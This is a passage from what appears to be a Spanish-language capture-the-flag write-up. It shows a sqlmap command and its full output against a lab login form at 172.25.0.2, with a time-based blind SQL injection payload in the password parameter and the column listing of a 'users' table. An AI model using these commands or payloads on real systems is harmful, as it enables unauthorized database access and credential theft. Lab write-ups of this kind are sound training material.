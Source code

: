 Sabiendo que la tabla se llama `users` haremos lo siguiente.

```shell
sqlmap -r request.txt --batch -D crackofftrue_db -T users --threads 10 --columns
```

Info:

```
       ___
       __H__
 ___ ___[,]_____ ___ ___  {1.8.7#stable}
|_ -| . [']     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:11:46 /2024-08-21/

[14:11:46] [INFO] parsing HTTP request from 'request.txt'
[14:11:46] [INFO] resuming back-end DBMS 'mysql' 
[14:11:46] [INFO] testing connection to the target URL
got a 302 redirect to 'http://172.25.0.2/error.php'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: password (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: 
username=admin&password=admin' AND (SELECT 5760 FROM (SELECT(SLEEP(5)))bBpi) AND 'gWSm'='gWSm
---
[14:11:46] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12
[14:11:46] [INFO] fetching columns for table 'users' in database 'crackofftrue_db'
multi-threading is considered unsafe in time-based data retrieval. Are you sure of your choice (breaking warranty) [y/N] N
[14:11:46] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                                                         
[14:11:47] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
[14:12:02] [INFO] adjusting time delay to 1 second due to good response times
3
[14:12:02] [INFO] retrieved: id
[14:12:08] [INFO] retrieved: int
[14:12:20] [INFO] retrieved: password
[14:12:48] [INFO] retrieved: varchar(50)
[14:13:22] [INFO] retrieved: username
[14:13:45] [INFO] retrieved: varchar(50)
Database: crackofftrue_db
Table: users
[3 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| id       | int         |
| password | varchar(50) |
```